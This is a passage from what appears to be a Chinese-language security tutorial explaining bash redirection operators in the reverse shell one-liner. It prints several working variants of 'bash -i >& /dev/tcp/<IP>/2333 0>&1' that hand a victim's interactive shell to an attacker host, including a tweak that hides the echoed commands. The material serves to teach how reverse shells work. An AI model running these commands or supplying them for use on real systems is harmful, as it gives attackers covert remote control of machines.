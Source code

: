 ![img](assets/1668672736257-29324c30-c94a-4546-8781-ac9222b2b244.png)

**注意：**
但是这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令 ，如下图所示，我们马上解决

![img](assets/1668672774590-58f7a8d1-c095-4e12-a5d4-69beac8a7902.png)

**4. >&、&>**

这个符号前面也提到了，作用就是混合输出（错误、正确输出都输出到一个地方）

现在我们解决一下前面的问题：（在前面的命令基础上，将标准错误输出也重定向到攻击机上 ）

```shell
bash -i > /dev/tcp/192.168.1.130/2333 0>&1 2>&1
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
bash -i &> /dev/tcp/192.168.1.130/2333 0>&1
bash -i &> /dev/tcp/192.168.1.130/2333 0&>1
```

可以看到命令并没有回显在受害者机器上，我们的目的达成了

![img](assets/1668673065601-203940ba-6c9d-4648-b1c6-044702bba24e.png)![img](assets/1668673086244-f6a9fc3e-ac78-4469-9597-f0438338e0bc.png)**至此，我们的反弹shell的经典语句就分析完了，通过这条语句的分析我们能大致的了解反弹shell的本质，以后碰到其他的反弹shell 的语句也能用类似的分析方法区分析，甚至我们也可以自己举一反三创造更加绝妙的反弹shell 的语句**
